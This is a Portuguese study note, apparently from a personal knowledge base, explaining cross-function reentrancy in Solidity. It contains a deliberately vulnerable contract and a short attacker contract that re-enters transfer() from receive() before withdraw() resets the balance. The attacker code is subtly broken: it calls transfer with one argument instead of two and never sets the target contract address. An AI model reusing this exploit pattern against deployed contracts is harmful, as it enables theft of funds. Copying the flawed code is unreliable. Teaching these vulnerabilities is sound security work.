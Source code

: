+++
title = "Reentrada Entre Funções (Solidity)"
author = ["Gabriel Rosa"]
date = 2023-09-11
tags = ["reentrancy"]
draft = false
+++

tags
: [Reentrada (SWC-107)]({{< relref "reentrada_swc_107.md" >}})

source
: [Cross-Function Reentrancy (SCSFG)](https://scsfg.io/hackers/reentrancy/#cross-function-reentrancy)

É o tipo de reentrada que afeta o contexto de mais de uma função por elas compartilharem do mesmo estado.


## Vulnerabilidade {#vulnerabilidade}

No código abaixo, a função de saque irá pegar o saldo disponível do chamador da função e transferir para ele esse valor caso o contrato tenha ETH suficiente para isso. Se a transferência foi bem-sucedida, ele irá atualizar o saldo disponível do chamador da função.

O problema é: se o chamador da função for um contrato, ele poderá usar `receive()` para executar a função `transfer(address,uint256)` antes que a função `withdraw()` atualize o saldo disponível do chamador da função.

```solidity
contract Vulnerable {
    mapping(address => uint256) public balances;

    function transfer(address to, uint256 amount) public {
        if (balances[msg.sender] >= amount) {
            balances[to] += amount;
            balances[msg.sender] -= amount;
        }
    }

    function withdraw() public {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```


## Exploitando {#exploitando}

```solidity
contract Attacker {
    Vulnerable public vulnerableContract;
    address public receiverAddress;

    constructor(address _receiverAddress) {
        receiverAddress = _receiverAddress;
    }

    function attack() public {
        vulnerableContract.withdraw();
    }

    receive() external payable {
        vulnerableContract.transfer(receiverAddress);
    }
}
```
